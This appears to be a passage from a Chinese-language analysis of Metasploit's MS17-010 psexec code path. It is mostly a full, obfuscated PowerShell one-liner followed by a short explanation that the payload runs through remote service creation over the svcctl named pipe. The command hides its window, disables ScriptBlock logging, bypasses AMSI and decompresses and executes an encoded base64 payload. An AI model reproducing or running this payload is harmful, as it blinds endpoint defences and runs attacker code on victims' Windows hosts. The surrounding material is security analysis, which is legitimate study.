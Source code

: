 ```bash
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c  $yh=[Collections.Generic.Dictionary[string,System.Object]]::new();If($PSVersionTable.PSVersion.Major -ge 3){ $u0=((''''+''{1}''+''c{0}ipt{2}lock''+''Logg''+''ing'')-f''r'',''S'',''B''); $ov=[Ref].Assembly.GetType(((''{2}{4}st''+''em.{0}''+''a''+''nag''+''ement.{3}''+''utomation.{1''+''}ti''+''{5}s'')-f''M'',''U'',''S'',''A'',''y'',''l'')); $pmnF=((''''+''EnableSc{1}i{0}t{3}l''+''o''+''c''+''{2}''+''Logging'')-f''p'',''r'',''k'',''B''); $crCde=$ov.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); $xI=[Ref].Assembly.GetType(((''''+''{0}''+''{1''+''}''+''st''+''em{9''+''}{4}ana''+''{6}ement''+''{9}{''+''7''+''}''+''{''+''3}t{8}ma''+''ti''+''{8}''+''n{9''+''}{7}msi''+''{''+''5''+''}''+''ti{2}s'')-f''S'',''y'',''l'',''u'',''M'',''U'',''g'',''A'',''o'',''.'')); if ($xI) { $xI.GetField(((''''+''a{0}s''+''i{''+''1}''+''nit{4}''+''a''+''il{3}''+''{2''+''}'')-f''m'',''I'',''d'',''e'',''F''),''NonPublic,Static'').SetValue($null,$true); }; If ($crCde) { $kCnF_=((''{3}nab''+''l{2}''+''{1}cript{4''+''}lock{0''+''}''+''nvocation{5''+''}o''+''gging'')-f''I'',''S'',''e'',''E'',''B'',''L''); $xpL=$crCde.GetValue($null); If($xpL[$u0]){ $xpL[$u0][$kCnF_]=0; $xpL[$u0][$pmnF]=0; } $yh.Add($pmnF,0); $yh.Add($kCnF_,0); $xpL[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$u0]=$yh; } Else { [Ref].Assembly.GetType(((''''+''S{4}''+''stem.''+''{''+''1''+''}an''+''agement.{5}utomation.Sc{2}i{3}''+''tB{0}o''+''ck'')-f''l'',''M'',''r'',''p'',''y'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAOED{1}WUCA71WbW/aSBD+flL/g1Uh2agEG0KbJlKlW5sYSAKYOLwXnTb2Yrasvc{1}e{0}kiv//1mj{1}2IklS9k3qWSPZlZnb2mWdmdr6OPEF5pOBbU3SV7+/+ULLPwTEOFa2wjT6WlMKcseJ+r7BCF8oX{1}Zui1arO{''+''0}0yj2dmZtY5jEondvNwgAiUJCW8ZJYlWVP5Whgs''+''Sk6Pu7TfiCeW7Uvir3GD8FrNMbGthb0GUIxT5cu+Ke1g6VnZXjApN/fpV''+''LU6PKrPy+d0as0{1}T3W0iSFj2GVOLyo+iPPBmuyKa2qZezBM+F+UhjY6r5X6U4''+''DnpgLV70iZi''+''wf1EhbvsbxMTsY6j9FLSyk5GU2H''+''ox''+''NxDvh+TJFFLylTan85mf2rT7PDrdS{1''+''}oSMqtSJCYr1wS31OPJOUmjnxGrsl8BlquiGkUzIpFELvnS6IVojVjJeXfmNE6ZJND96tK2qESSDkiLpYgoC+v2eb+mpGdovqKn5ID{1}fgyHgB4Py{1}+85w7/skrxNkv5N803SHgrubwhKaqXxSjpLThZCx4vIVp4SZek+LsCWylEMZGo/Sr1iq5Kij6Ixs1YG064NSf7S08C36BDKTI20SukzmNSH0b4ZB6OVe11wJC5oykgJ{1}zs{0}44qKnZBvHrhJEAC4mx5MULtfO{0}iiddc02ZT2Lk{0}VAT8AriXXzuzC5smtqK2i{0}E9HZzVUYJMoTk0llWbPPT5{1}yEVIvhJCkpzhpS1CspLsGM+CUF{1}{0}nNttBa8HSo7t1tr5mgHk5Ebm5WfAZmdqjFo0TEaw+iCgDcuCviUcwkHiWlSX1ibl0a5Ierr6JhYcYgccDSPU{0}DVi{0}KrpBcicHPlBfFs''+''ktEK1wxEoJMWjBshgMoD1l6pOTCAfHVV93Mk2DHeIlKDs''+''eBkxBql3F{1}UgY0FlB8JMIpt/6TEy/rDnhjxSSLjJZn19TcCpkAhejxI65IjmY{0}pYDEAsCwYx6aOCGfarsao73Xu9{1}B8I1bEWv7F0taaW3g14Zfvz3/cOX{1}wBEGD9uelTgN''+''+zOim2Djfe4''+''gz7/wyak7qAn3vCU''+''sBzV71DBrC880buS4EgTI71655qK38Jjh1Ju6O04MumkO217dfNxUE2BqrdYcGej4uNY9NpaA3xj0lsjvhHTzcAVjT9owW4lptNj5hXV9O6zakyFr6jV7M{1}/yxP00ruu6furjenuLkMn94/Z2VLnmN00vNGs{1}10+t2hKdI2{1}F5wPb5JdjM0aOPsDBim8uA/MqDCxk2h4lk17''+''fNns920T9xre7+qke6KfDEV6Yw0GVTlaj6wX''+''M7U2zd6kbtZZPHvlkA8A1OMLBNcgEVtVbzEGm/gGZHzo8qeKlyZEJMvbkDjUW45XtMNi''+''/6Vc5GrDOCKOrydbW9crYqaGmwYeNAPVAHAdmD6''+''Pkvv5Y''+''1ysDn/vDj53xXB+M2Ilet3rOYiTvrK9C+XfTrF96k8rG657UTOPOCmnIbqu+ftr/bEZw{0}+c+8HvDk+uHzvYWzu3r+uA9MGbap5E4rgJZ+lb3k6yq7/4o3DtodMCbtxpGG8fJAjPgE7SCPKttHttZeXc4l{1}qatnsiLEkcE{0}Z9FTpvnhGIMe7J5gKdANrartnI3tdvpW69NioqT4LFfc/Jl87OJuAkJFjK/vIVi{0}KxKBkPx4YBDcN4MGppKv363Sy+2mo7ayXZc1J0nuyz1D6YpHNF0/4HxOBlIaDOvYXZW/DB0UsoS1Ald7VCgmhyzg4hzG62p8{0}hggBdBW4/lY+KHVnAxhG5UwpC9t3DPl4{0}w9/MnqzqLeCf/''+''3P27Nd+svtLjDJKO3xeLD9fOOgWvxOBIaYC{1}F0o3ozsnhOvAZFlzEGMx{1}CSYZ598nXdXY''+''ujDrzX0u7xDwaZ3dfWCwAA'')-f''Q'',''R'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```

*   psexec 函数

同上面 `auxiliary ms17_010_command` 模块中的 psexec 函数调用分析一样，通过命名管道 svcctl 远程 RPC 调用进行创建服务、启动服务、删除服务来进行 powershell payload 的执行

lib/msf/core/exploit/remote/smb/client/psexec.rb
